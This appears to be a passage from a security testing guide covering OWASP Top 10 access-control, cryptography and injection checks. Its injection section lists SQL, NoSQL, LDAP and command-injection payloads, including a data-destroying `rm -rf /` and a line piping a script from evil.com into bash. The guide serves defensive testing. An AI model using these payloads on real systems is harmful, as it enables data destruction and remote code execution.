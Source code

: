 ### Phase 2: Vulnerability Assessment

#### 2.1 OWASP Top 10 Analysis

##### A01:2021 – Broken Access Control
Check for:
```python
# Test cases
- Horizontal privilege escalation
- Vertical privilege escalation
- Missing function level access control
- Insecure direct object references (IDOR)
- CORS misconfiguration
- Force browsing vulnerabilities

# Example test
GET /api/users/123/profile  # As user 456
GET /api/admin/users       # As regular user
DELETE /api/posts/789      # As non-owner
```

##### A02:2021 – Cryptographic Failures
Assess:
```yaml
Encryption Review:
  data_at_rest:
    - Database encryption
    - File system encryption
    - Backup encryption
    
  data_in_transit:
    - TLS versions (minimum 1.2)
    - Certificate validation
    - Cipher suites strength
    
  sensitive_data:
    - Password hashing (bcrypt, scrypt, Argon2)
    - PII encryption
    - Key management practices
```

##### A03:2021 – Injection
Test for:
```sql
-- SQL Injection tests
' OR '1'='1
'; DROP TABLE users; --
' UNION SELECT * FROM passwords --

-- NoSQL Injection
{"$ne": null}
{"$gt": ""}
{"$where": "this.password == 'test'"}

-- Command Injection
; ls -la
| whoami
`rm -rf /`
$(curl evil.com/shell.sh | bash)

-- LDAP Injection
*)(uid=*))(|(uid=*
*)(|(password=*))

```
